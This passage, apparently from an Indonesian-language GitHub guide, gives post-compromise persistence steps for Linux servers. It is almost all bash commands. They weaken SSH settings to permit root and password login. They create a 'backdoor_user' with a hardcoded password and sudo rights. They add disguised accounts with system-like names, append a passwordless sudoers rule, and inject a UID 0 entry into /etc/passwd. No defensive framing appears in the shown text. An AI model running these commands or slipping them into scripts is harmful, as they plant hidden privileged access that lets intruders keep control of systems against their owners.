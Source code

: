 #### SSH Config Modifications:
```bash
# Allow root login (jika disabled)
sed -i 's/#PermitRootLogin no/PermitRootLogin yes/' /etc/ssh/sshd_config

# Allow password authentication
sed -i 's/PasswordAuthentication no/PasswordAuthentication yes/' /etc/ssh/sshd_config

# Restart SSH service
systemctl restart sshd
```

### 3. User Creation

**Tujuan**: Membuat user backdoor dengan privileges

#### Create Backdoor User:
```bash
# Create user dengan home directory
useradd -m -s /bin/bash backdoor_user

# Set password
echo "backdoor_user:SecretPass123" | chpasswd

# Add to sudo group
usermod -aG sudo backdoor_user

# Create user yang terlihat normal
useradd -m -s /bin/bash system-service
echo "system-service:$(openssl rand -base64 12)" | chpasswd
```

#### Stealth User Creation:
```bash
# User dengan UID tinggi (kurang mencurigakan)
useradd -u 65534 -g 65534 -s /bin/bash -d /var/lib/nobody nobody-service

# User dengan nama sistem
useradd -r -s /bin/bash -d /var/lib/systemd systemd-network-helper

# Hide user dari login screen
echo "system-service:*:18000:0:99999:7:::" >> /etc/shadow
```

#### User Privilege Escalation:
```bash
# Add to sudoers without password
echo "backdoor_user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers

# Add to specific groups
usermod -aG wheel,adm,sys backdoor_user

# Direct root access
echo "backdoor_user:x:0:0:System Service:/root:/bin/bash" >> /etc/passwd
```
